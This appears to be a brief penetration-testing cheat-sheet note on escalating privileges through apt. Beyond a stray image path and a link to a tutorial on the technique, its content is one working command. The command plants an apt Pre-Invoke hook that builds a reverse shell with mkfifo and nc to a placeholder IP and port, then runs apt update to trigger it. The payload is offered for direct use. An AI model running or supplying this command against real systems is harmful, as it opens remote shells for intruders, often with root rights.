 # APT
#apt

Good list: https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation/

`echo 'apt::Update::Pre-Invoke {"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f"};' > pwn;apt update`